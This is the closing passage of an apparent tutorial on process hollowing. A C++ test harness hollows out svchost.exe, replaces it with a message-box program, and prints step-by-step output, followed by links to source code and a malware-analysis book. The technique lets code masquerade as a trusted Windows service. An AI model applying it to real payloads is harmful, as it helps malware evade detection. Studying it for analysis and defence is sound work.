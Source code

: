 The hollowing function is now ready to use. To test it, svchost.exe (the Windows service host) is hollowed out and replaced with a simple application that displays a message box.

```cpp
int _tmain(int argc, _TCHAR* argv[])
{
      char* pPath = new char[MAX_PATH];
      GetModuleFileNameA(0, pPath, MAX_PATH);
      pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
      strcat(pPath, "helloworld.exe");
     
      CreateHollowedProcess
      (
            "svchost",
            pPath
      );
 
      system("pause");
 
      return 0;
}
```
 
Once the application is run, its output confirms that the hollowing was successful.

Creating process
Opening source image
Unmapping destination section
Allocating memory
Source image base: 0x00400000
Destination image base: 0x00A60000
Relocation delta: 0x00660000
Writing headers
Writing .text section to 0x00A8B000
Writing .rdata section to 0x00AE2000
Writing .data section to 0x00AF3000
Writing .idata section to 0x00AF7000
Writing .rsrc section to 0x00AF8000
Writing .reloc section to 0x00AF9000
Rebasing image
Getting thread context
Setting thread context
Resuming thread
Process hollowing complete
Press any key to continue . . .
 
## Resources
Process Hollowing Source
https://github.com/m0n0ph1/Process-Hollowing/
 
Malware Analyst's Cookbook and DVD: Tools and Techniques for Fighting Malicious Code
http://www.amazon.com/Malware-Analysts-Cookbook-DVD-Techniques/dp/0470613033
 